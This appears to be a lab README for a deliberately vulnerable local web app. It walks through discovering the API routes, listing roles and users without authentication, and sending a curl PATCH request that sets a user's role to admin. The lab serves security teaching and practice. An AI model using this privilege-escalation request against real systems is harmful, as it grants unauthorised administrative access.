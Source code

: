 # Lab Setup

```bash
npm run initial-setup
sudo docker compose up --build
```

# Procedure

Find the api documentation at http://localhost:3000/sitemap.xml. It lists all the routes available in the application.

## Roles identification and Review role permissions
Send a request to http://localhost:3000/api/roles

```bash
curl http://localhost:3000/api/roles
```

your output will look like this:
```bash
{"roles":[{"id":1,"name":"admin","permissions":"[\"all\"]","description":"Administrator with full access"},{"id":2,"name":"manager","permissions":"[\"read\", \"write\", \"manage_users\"]","description":"Manager with user management access"},{"id":3,"name":"user","permissions":"[\"read\"]","description":"Regular user with basic access"},{"id":4,"name":"admin","permissions":"[\"all\"]","description":"Administrator with full access"},{"id":5,"name":"manager","permissions":"[\"read\", \"write\", \"manage_users\"]","description":"Manager with user management access"},{"id":6,"name":"user","permissions":"[\"read\"]","description":"Regular user with basic access"}]}
```

## Switching to available roles
Create a user at http://localhost:3000/register

![Registration page](assets/register.png)

Get the users using the following command
```bash
curl http://localhost:3000/api/users
```

Find the details of your user, with your user id. Then run the following command.

```bash
curl -X PATCH http://localhost:3000/api/users/1 --data '{"role":"admin"}'
```

Then log in with that user.

## Have fun ;)
There are many more vulnerabilities. They are not required for the experiment, but you may find them at your leisure.